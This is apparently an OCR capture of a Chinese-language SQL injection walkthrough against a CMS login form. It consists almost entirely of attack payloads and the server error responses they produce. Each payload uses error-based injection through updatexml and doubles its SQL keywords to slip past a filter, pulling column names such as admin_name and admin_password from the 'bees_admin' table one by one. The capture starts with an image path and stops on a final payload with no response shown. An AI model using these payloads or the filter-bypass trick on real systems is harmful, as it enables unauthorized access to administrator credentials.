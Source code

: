 user=admin' an and d updatexml(1,concat(0x7e,(selselectect column_name fr from om information_schema.columns whe where re table_schema like database() an and d table_name like 'bees_admin')),1) #&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39

操作数据库失败Subquery returns more than 1 row<br>sql:select id,admin_name,admin_password,admin_purview,is_disable from bees_admin where admin_name='admin' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema like database() and table_name like 'bees_admin')),1) #' limit 0,1

user=admin' an and d updatexml(1,concat(0x7e,(selselectect column_name fr from om information_schema.columns whe where re table_schema like database() an and d table_name like 'bees_admin' limit 0,1)),1) #&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39

操作数据库失败XPATH syntax error: '~id'<br>sql:select id,admin_name,admin_password,admin_purview,is_disable from bees_admin where admin_name='admin' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema like database() and table_name like 'bees_admin' limit 0,1)),1) #' limit 0,1

### 列名id

user=admin' an and d updatexml(1,concat(0x7e,(selselectect column_name fr from om information_schema.columns whe where re table_schema like database() an and d table_name like 'bees_admin' limit 1,1)),1) #&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39

操作数据库失败XPATH syntax error: '~admin_name'<br>sql:select id,admin_name,admin_password,admin_purview,is_disable from bees_admin where admin_name='admin' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema like database() and table_name like 'bees_admin' limit 1,1)),1) #' limit 0,1**

### 列名admin_name

user=admin' an and d updatexml(1,concat(0x7e,(selselectect column_name fr from om information_schema.columns whe where re table_schema like database() an and d table_name like 'bees_admin' limit 2,1)),1) #&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39

操作数据库失败XPATH syntax error: '~admin_password'<br>sql:select id,admin_name,admin_password,admin_purview,is_disable from bees_admin where admin_name='admin' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema like database() and table_name like 'bees_admin' limit 2,1)),1) #' limit 0,1

### 列名admin_password

user=admin' an and d updatexml(1,concat(0x7e,(selselectect column_name fr from om information_schema.columns whe where re table_schema like database() an and d table_name like 'bees_admin' limit 3,1)),1) #&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39

操作数据库失败XPATH syntax error: '~admin_nich'<br>sql:select id,admin_name,admin_password,admin_purview,is_disable from bees_admin where admin_name='admin' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema like database() and table_name like 'bees_admin' limit 3,1)),1) #' 

### 列名admin_nich

user=admin' an and d updatexml(1,concat(0x7e,(selselectect column_name fr from om information_schema.columns whe where re table_schema like database() an and d table_name like 'bees_admin' limit 4,1)),1) #&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39
